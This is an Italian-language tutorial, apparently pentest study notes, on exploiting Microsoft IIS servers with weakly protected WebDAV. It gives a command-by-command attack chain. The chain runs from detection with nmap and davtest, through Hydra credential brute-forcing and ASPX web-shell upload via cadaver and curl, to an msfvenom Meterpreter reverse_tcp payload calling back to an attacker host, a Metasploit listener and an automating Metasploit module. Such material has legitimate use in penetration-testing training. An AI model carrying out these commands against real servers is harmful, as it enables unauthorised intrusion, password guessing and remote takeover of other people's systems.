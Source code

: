 # Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su Microsoft IIS. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## 1 – Rilevazione del servizio WebDAV

`nmap -p80,443 --script=http-enum <IP>` ⟶ lo script individua directory WebDAV note. <br>
Dopo aver confermato la presenza di WebDAV, possiamo testare il suo comportamento con: <br>
`davtest -url http://<IP>/webdav` ⟶ sonda metodi (PUT, MKCOL, PROPFIND) e verifica upload se non é protetta da password. <br>
`curl -X OPTIONS http://<IP>/webdav -i` ⟶ elenca i metodi HTTP; se `PUT` è presente, è vulnerabile. <br>

---

## 2 – Brute‑force credenziali (opzionale)

Una volta confermata la vulnerabilità, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
`hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav` <br>

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>
Se invece vuoi effettuare un login standar basta mettere `/` al posto di `/webdav` per autenticarti
> ovviamente puoi mettere qualsiasi altra directory che richiede autenticazione dopo `/`

---

## 3 – Verifica upload con **davtest**

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest: <br>
`davtest -auth <user>:<pass> -url http://<IP>/webdav` ⟶ stessa prova ma autenticata. <br>

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**

`cadaver http://<IP>/webdav` ⟶ client WebDAV interattivo. <br>
`put C:\\webshell\\cmd.aspx` ⟶ carica la web‑shell ASPX. <br>

Tutte le web shells disponibili su kali sono visualizzabili al path 
`/usr/share/webshells`

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:

`curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` ⟶ carica shell ASPX. <br>

e tramite il metodo put: <br>
`put </usr/share/webshells/webShellDaUsare>`

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx` <br>

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit

`use multi/handler` ⟶ modulo listener generico. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ definisce il payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta configurata nel payload. <br>
`run` ⟶ avvia il listener in attesa della connessione. <br>

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo: <br>
`exploit/windows/iis/iis_webdav_upload_asp`

---
